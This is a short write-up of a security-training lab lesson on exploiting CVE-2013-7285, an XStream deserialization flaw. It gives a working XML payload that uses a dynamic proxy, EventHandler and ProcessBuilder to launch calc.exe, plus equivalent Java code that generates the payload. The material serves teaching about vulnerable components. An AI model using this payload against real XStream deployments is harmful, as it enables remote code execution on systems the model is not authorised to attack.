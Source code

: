 # (A9) Vulnerable Components

## Lesson 12 - Exploiting CVE-2013-7285 (XStream)
This lesson is a bit unclear. Basically, the goal is to exploit
[CVE-2013-7285](https://nvd.nist.gov/vuln/detail/CVE-2013-7285). You can finish it with this payload:
```xml
<sorted-set>
  <string>foo</string>
  <dynamic-proxy>
    <interface>java.lang.Comparable</interface>
    <handler class="java.beans.EventHandler">
      <target class="java.lang.ProcessBuilder">
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    </handler>
  </dynamic-proxy>
</sorted-set>
```
- `<sorted-set>` is deserialized by XStream as `java.util.SortedSet`
- We are adding 2 objects to this `SortedSet`:
    - a string `foo`
    - a dynamic proxy (handled by XStream)
    
This is pretty much the same in Java code:
```
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc.exe"), "start"));
String payload = xstream.toXML(set);
System.out.println(payload);
```
   
You can read more about it here:
- http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
- https://www.baeldung.com/java-xstream-remote-code-execution